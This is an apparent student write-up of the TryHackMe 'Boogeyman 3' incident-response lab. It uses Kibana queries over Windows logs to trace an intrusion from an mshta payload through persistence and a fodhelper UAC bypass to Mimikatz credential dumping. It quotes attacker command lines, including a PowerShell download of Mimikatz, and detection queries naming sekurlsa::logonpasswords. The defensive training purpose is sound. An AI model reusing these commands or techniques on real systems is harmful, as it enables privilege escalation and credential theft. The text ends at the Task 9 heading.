# Boogeyman 3 - TryHackMe Challenge

## Objective:
Documenting my full investigation of the **initial payload execution** in the Boogeyman 3 challenge, while building real-world SOC skills using Kibana and Winlogbeat data.

---

## 🧠 Task 1 - Identify the Process That Executed the Initial Stage 1 Payload

**Command / Query Used:**
```kql
process.parent.name: "explorer.exe"
```

  

 The Struggle:
At first, I thought the answer would obviously be:

A PowerShell command using -enc or -c

Or setup.exe launched from the .iso

Or even the RAT tool screenconnect.windowsclient.exe

I tested 6+ different PIDs including:

7116 (from fodhelper.exe)

1600 (for setup.exe)

1752 (screenconnect)

... all of them were wrong.

So I went back to square one and thought:
"What would a real attacker use to disguise a script-based payload?"

That’s when I remembered mshta.exe from a previous TryHackMe room.

## Task 2 - Find the Full Command-Line Value of the Stage 1 Payload Execution

**Command/Query Used:**
```kql
process.parent.pid: 6392

```
  

 What I Did:
I knew from Task 1 that the process responsible for stage 1 execution was mshta.exe and its PID was 6392.

To investigate what child processes it launched and how, I filtered the dataset using:
process.parent.pid: 6392

This shows any command that was directly launched by mshta.exe.
My Reasoning:
When I saw the TryHackMe question ask about a command "attempting to implant a file to another location," I knew it had to involve a tool like xcopy.exe, robocopy, or something used for data movement.

One entry stood out: "C:\Windows\System32\xcopy.exe" /s /i /e /h D:\review.dat C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat

I recognized:

xcopy.exe = used to copy files and directories

/s /i /e /h = common switches attackers use for stealthy recursive file copying

review.dat = suspicious, likely payload or extracted data

EVAN~1.HUT = 8.3 short filename for EVAN-HUTCHINSON, showing it’s a real user profile

This task taught me how to correlate a parent-child process chain in a timeline using Winlogbeat logs in Kibana. By filtering with process.parent.pid, I was able to isolate what was launched right after mshta.exe ran. This is critical in real-world malware forensics when tracking staged payload execution and lateral movement.


## Task 3 - Execution of the Implanted File

**Command / Query Used:**
```kql
process.name: "rundll32.exe" AND process.command_line: "*review.dat*"

```
  

 What I Did:
From Task 2, I knew the malicious .dat file was implanted at:
C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat

The question hinted at the execution format:
**\******\********\******** /*/*/*/*.*
which matches the typical syntax for running a DLL/implant with rundll32.exe.

My Reasoning:
Attackers often execute malicious DLL-like payloads using rundll32.exe with an export function, e.g.:
rundll32.exe payload.dll,DllRegisterServer

The .dat file from Task 2 was likely a renamed DLL.
Filtering for process.name: "rundll32.exe" and matching review.dat in the command_line field would reveal the execution event.

## Task 4 – Scheduled Task (Persistence) Name

**Command / Query Used**
```kql
"ProjectFinancialSummary_Q3"
```

  

Breakdown
This rare string appears in:
mshta.exe opening the HTA from the ISO
xcopy.exe copying review.dat
rundll32.exe executing review.dat,DllRegisterServer
powershell.exe creating a scheduled task via Register-ScheduledTask

What I looked at :
Added the columns: @timestamp, process.name, process.command_line, process.parent.executable, host.hostname.
Sorted ascending to read the story chronologically.

Finding
From the PowerShell one‑liner:
... Register-ScheduledTask Review -InputObject $D -Force;

## Task 5 - Identify C2 Connection from Payload Execution

**Command / Query Used**
```kql
"review.dat" OR "rundll32.exe" OR "ProjectFinancialSummary_Q3"
```

  

## Task 6 – UAC Bypass Process Name

**Command / Query Used**
```kql
process.parent.name : "rundll32.exe"
```
  

By filtering for processes spawned by rundll32.exe, I was able to trace the post-execution activity of the malicious payload. Among these, fodhelper.exe appeared.

fodhelper.exe is a legitimate Windows binary that is often abused for UAC bypass because it automatically runs with elevated privileges without showing a User Account Control prompt. Attackers can exploit this by setting specific registry keys to point to malicious commands, which will then execute with admin rights.

What I looked at : 

Added the columns: @timestamp, process.name, process.command_line, process.parent.name, host.hostname.

Sorted by timestamp to view the sequence of execution events.

Verified that fodhelper.exe was used directly after privilege escalation checks, confirming its role in the UAC bypass step.

## Task 7 – Credential Dumping Tool Download (Mimikatz)

**Command / Query Used**
```kql
download
```
  

The search term download was used to identify any suspicious file retrieval events in the logs.
In this case, the logs revealed that PowerShell executed a command to download the Mimikatz credential dumping tool from GitHub.

Key Findings

Process Name: powershell.exe

Process Command Line: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c iwr https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -outfile mimi.zip

The attacker used Invoke-WebRequest (iwr) in PowerShell to fetch the tool and saved it locally as mimi.zip.

Source: GitHub repository for Mimikatz by gentilkiwi.

Purpose: Mimikatz is a known tool for extracting plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory.

What I Looked At :

Added the following fields for clarity:
process.name, process.command_line, process.parent.command_line, process.parent.name, host.name.

Verified that the command clearly pointed to a credential dumping intent.

Sorted logs chronologically to confirm this occurred after the attacker obtained high privilege access.

## Task 8 – Username & Hash from Credential Dump

**Command / Query Used**
```kql
process.command_line : "*sekurlsa::logonpasswords*" 
OR process.command_line : "*mimikatz*" 
OR powershell.file.script_block_text : "*sekurlsa::*" 
OR powershell.file.script_block_text : "*NTLM*"
```
  

Breakdown :
The attacker, after dumping credentials, attempted to use them for lateral movement.

Filtering for sekurlsa::logonpasswords, mimikatz, and NTLM within both process.command_line and powershell.file.script_block_text revealed multiple entries containing credential data.

NTLM hashes and corresponding usernames were visible directly in the powershell.file.script_block_text field.

From these results, the username and hash pair used for lateral movement were extracted.

What I Looked At:
Columns: @timestamp, process.name, process.command_line, powershell.file.script_block_text, host.name.
Sorted results by time to identify the most recent credential dump before lateral movement attempts.


# Task 9 - Enumerate File Shares & Identify the Remote File Accessed 

**Command / Query Used**
```kql
host.name : "WKSTN-0051.quicklogistics.org" and process.name : "powershell.exe" and *github*
```


